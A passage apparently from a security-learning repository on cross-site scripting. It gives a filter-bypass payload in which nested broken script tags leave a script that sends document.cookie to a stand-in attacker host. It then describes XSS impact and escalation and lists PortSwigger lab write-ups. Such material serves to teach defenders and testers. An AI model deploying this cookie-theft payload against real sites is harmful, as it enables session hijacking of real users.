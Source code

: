     <scrip<script>t>
    location='http://attacker_server_ip/c='+document.cookie;
    </scrip</script>t>

The filter won’t recognize those broken tags as legitimate, but once the filter removes the intact tags from this payload, the rendered input becomes a perfectly valid piece of JavaScript code:

    <script>location='http://attacker_server_ip/c='+document.cookie;</script>

## Escalation

XSS attacks can result in:

* Hijacking a user’s session, using credentials to access other sites or redirect the user to unintended websites.
* Altering website pages or inserting sections into a web page.
* Executing scripts to extract sensitive information from cookies or databases.

The impact varies. The type of XSS determines the number of users who could be affected. 

* Stored XSS on a public forum can realistically attack anyone who visits that forum page, so stored XSS is considered the most severe. 
* Reflected or DOM XSS can affect only users who click the malicious link.
* Self-XSS requires a lot of user interaction and social engineering to execute.

The identities of the affected users matter too. If a stored XSS vulnerability is on a site’s server logs, the XSS can affect system administrators and allow attackers to take over their sessions. Since the affected users are accounts of high privilege, the XSS can compromise the integrity of the entire application. You might gain access to customer data, internal files, and API keys. You might even escalate the attack into RCE by uploading a shell or execute scripts as the admin.

* In a brochure-ware application, where all users are anonymous and all information is public, the impact will often be minimal.
* In an application holding sensitive data, such as banking transactions, emails, or healthcare records, the impact will usually be serious.
* If the compromised user has elevated privileges within the application, then the impact will generally be critical, allowing the attacker to take full control of the vulnerable application and compromise all users and their data.

## Portswigger lab writeups

* [Open redirection techniques](../xss/../techniques/redirects.md)
* [Reflected XSS into HTML context with nothing encoded](../xss/1.md)
* [Stored XSS into HTML context with nothing encoded](../xss/2.md)
* [DOM XSS in document.write sink using source location.search](../xss/3.md)
* [DOM XSS in innerHTML sink using source location.search](../xss/4.md)
* [DOM XSS in jQuery anchor href attribute sink using location.search source](../xss/5.md)
* [DOM XSS in jQuery selector sink using a hashchange event](../xss/6.md)
* [Reflected XSS into attribute with angle brackets HTML-encoded](../xss/7.md)
* [Stored XSS into anchor href attribute with double quotes HTML-encoded](../xss/8.md)
* [Reflected XSS into a JavaScript string with angle brackets HTML encoded](../xss/9.md)
* [DOM XSS in document.write sink using source location.search inside a select element](../xss/10.md)
* [DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](../xss/11.md)
* [Reflected DOM XSS](../xss/12.md)
* [Stored DOM XSS](../xss/13.md)
* [Exploiting cross-site scripting to steal cookies](../xss/14.md)
* [Exploiting cross-site scripting to capture passwords](../xss/15.md)
* [Exploiting XSS to perform CSRF](../xss/16.md)
* [Reflected XSS into HTML context with most tags and attributes blocked](../xss/17.md)
* [Reflected XSS into HTML context with all tags blocked except custom ones](../xss/18.md)
* [Reflected XSS with some SVG markup allowed](../xss/19.md)
* [Reflected XSS in canonical link tag](../xss/20.md)
* [Reflected XSS into a JavaScript string with single quote and backslash escaped](../xss/21.md)